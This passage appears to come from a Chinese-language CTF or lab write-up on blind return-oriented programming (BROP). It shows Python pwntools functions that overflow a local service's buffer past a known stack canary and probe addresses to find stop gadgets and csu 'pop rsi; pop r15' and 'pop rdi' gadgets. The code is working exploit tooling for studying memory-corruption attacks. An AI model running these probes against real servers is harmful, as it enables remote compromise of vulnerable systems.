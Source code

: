 ```python
def check_BROP_gadgets_stop(buf_flag:int,canary_flag:bytes,stop_gadgets_flag:bytes,Trap_gadgets_flag:bytes,probe:int):

    try:
        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")

        payload =  b"A" * buf_flag + canary_flag + p64(0)
        payload += p64(probe)
        payload += Trap_gadgets_flag * 0x6
        payload += Trap_gadgets_flag * 0x10
        p.send(payload)

        Connection_flag = p.recv(timeout = 1)
        p.close()


        if not Connection_flag:
            return False

    except:

        p.close()
        return True
```



#### 检测是否满足csu的两个条件

```python
def check_BROP_gadgets_csu(buf_flag:int,canary_flag:bytes,stop_gadgets_flag:bytes,Trap_gadgets_flag:bytes,probe:int):
    
    try:

        #检测 + 0x7 后是否为 pop rsi ; pop r15 ; ret
        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")

        pop_rsi_r15 = probe + 0x7

        payload =  b"A" * buf_flag + canary_flag + p64(0)
        payload += p64(pop_rsi_r15)
        payload += Trap_gadgets_flag * 0x2
        payload += stop_gadgets_flag
        payload += Trap_gadgets_flag * 0x10
        p.send(payload)

        Connection_flag = p.recv(timeout = 1)
        p.close()

        #检测 + 0x9 后是否为 pop rdi ; ret

        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")

        pop_rdi = probe + 0x9

        payload =  b"A" * buf_flag + canary_flag + p64(0)
        payload += p64(pop_rdi)
        payload += Trap_gadgets_flag * 0x1
        payload += stop_gadgets_flag
        payload += Trap_gadgets_flag * 0x10
        p.send(payload)
```